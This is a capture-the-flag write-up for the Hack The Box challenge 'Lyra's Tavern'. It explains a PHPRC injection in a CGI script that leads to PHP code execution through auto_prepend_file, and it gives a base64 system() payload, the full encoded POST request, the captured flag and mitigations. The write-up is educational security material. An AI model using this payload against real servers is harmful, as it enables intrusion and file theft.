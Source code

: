 Write-Up for the Exploit Script:

# Lyra's Tavern Exploit Explanation

## Vulnerability Overview

The Lyra's Tavern application contains a critical vulnerability in the `app.cgi` script that allows an attacker to:

1. Override PHP configuration settings by controlling the PHPRC environment variable
2. Execute arbitrary PHP code via the `auto_prepend_file` directive
3. Read sensitive files from the server, including the flag file

## How the Vulnerability Works

1. The `app.cgi` script accepts a `PHPRC` parameter from user input:
   ```php
   $phprc = isset($_REQUEST['PHPRC']) ? $_REQUEST['PHPRC'] : null;
   ```

2. It then sets this as an environment variable that controls PHP's configuration:
   ```php
   putenv("PHPRC=" . $phprc);
   ```

3. By setting `PHPRC=/dev/fd/0`, we can make PHP read its configuration from standard input
   - `/dev/fd/0` is a special file that corresponds to stdin

4. The script also accepts a `data` parameter that gets passed to PHP via stdin:
   ```php
   $cmd = "printf \"%b\" " . escapeshellarg($data);
   $cmd = $cmd . " | php /www/application/config.php";
   ```

5. We can inject PHP configuration directives through this `data` parameter:
   - `allow_url_include=1` - Enables inclusion of remote files via URL
   - `auto_prepend_file=data://...` - Makes PHP execute our code before any script

## The Exploit Step by Step

1. **Create a PHP payload** that will read the flag file:
   ```php
   <?php system("cat /flag.txt"); ?>
   ```

2. **Encode the payload as a base64 data URL**:
   ```
   data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgL2ZsYWcudHh0Iik7ID8+
   ```

3. **Format the request** with:
   - URL: `http://<target>/cgi-bin/app.cgi?PHPRC=/dev/fd/0`
   - POST data: `data=allow_url_include%3D1%0Aauto_prepend_file%3D%22data%3A%2F%2Ftext%2Fplain%3Bbase64%2CPD9waHAgc3lzdGVtKCJjYXQgL2ZsYWcudHh0Iik7ID8%2B%22`

4. When this request is processed:
   - PHP reads its configuration from our provided data
   - The `auto_prepend_file` directive makes it execute our payload
   - Our payload runs `cat /flag.txt` and outputs the flag
  
```
HTB{N0W_Y0U_S33_M3_N0W_Y0U_D0NT!@_672eda5ab455a16bb2248bba717144f3}
```

## Why This Works

The vulnerability exists because:

1. The application allows user control of the `PHPRC` environment variable
2. It then executes PHP with this configuration
3. The `/dev/fd/0` trick allows us to supply both the configuration and the execution data in a single request
4. PHP's `auto_prepend_file` directive lets us execute code before any script runs

## Mitigation

To prevent this vulnerability:

1. Never allow users to control the `PHPRC` environment variable
2. Use proper input validation for all user-supplied data
3. Disable dangerous PHP directives like `allow_url_include`
4. Run PHP with restricted permissions
5. Implement proper filesystem access controls

## Write-Up Credit: [binchickens69](https://ctf.hackthebox.com/user/profile/605069)